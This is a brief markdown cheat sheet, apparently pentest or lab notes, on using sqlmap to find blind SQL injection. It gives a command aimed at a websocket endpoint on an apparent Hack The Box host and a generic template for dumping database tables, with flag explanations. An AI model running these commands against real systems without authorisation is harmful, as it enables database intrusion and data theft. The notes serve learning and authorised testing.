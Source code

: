 # Sqlmap

Sqlmap is a tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.

## Blind SQL injection

We can inject SQL code but not see the output.

```bash
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --
level 5 --risk 3 --batch
```

- `-u` Target URL
- `--data` Data string to be sent through POST (e.g. "id=1")
- `--dbs` Enumerate DBMS databases
- `--threads` Max number of concurrent HTTP(s) requests (default 1)
- `--level` Level of tests to perform (1-5, default 1)
- `--risk` Risk of tests to perform (1-3, default 1)
- `--batch` Never ask for user input, use the default behavior

If we found a DB we can dump its content with:

```bash
sqlmap -u <URL> --data '{"<FIELD>": "*" }' --threads <NUMBER> -D <database_name> --dump --batch
```

- `D` DBMS database to enumerate
- `--dump` Dump DBMS database table entries

## Docs

- https://github.com/sqlmapproject/sqlmap/wiki/Usage